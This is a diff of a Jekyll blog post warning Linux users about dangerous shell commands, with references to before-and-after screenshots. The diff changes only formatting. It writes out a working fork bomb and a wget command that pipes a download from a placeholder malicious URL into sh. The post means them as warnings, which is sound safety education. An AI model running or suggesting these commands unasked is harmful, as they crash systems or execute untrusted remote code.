

Before and after one commit to DropAll/dropall.github.io, a Jekyll site: the page built from _posts/2016-10-24-10-most-cangerous-commands.md, in a window 1280 px wide and 900 px high, scrolled down 4121 px. Shown: the top 847 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2016-10-24-10-most-cangerous-commands.md
+++ b/_posts/2016-10-24-10-most-cangerous-commands.md
@@ -28,7 +28,7 @@ Note, these days on most Linux systems if you tried doing this you’d get a war
 
 This command is actually a fork bomb. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.
 
-> :(){:|:&};:
+``` :(){:|:&};: ```
 
 This fork bomb command defines a function named : that recursively calls itself twice when executed. One of the recursive calls happens in the foreground while the other happens in the background.
 
@@ -91,7 +91,7 @@ If the above commands aren’t important here. What is important is that running
 
 Here’s an innocent command that can actually be useful in day-to-day life on a Linux system. **wget** retrieves the contents of a web URL, which can be used to access websites or download files. However, there’s a simple trick that turns it dangerous:
 
-> wget http://an-untrusted-url -O- | sh
+> wget http://an-untrusted-url -O- \| sh
 
 
 **wget http://malicious_source -O- | sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.
````
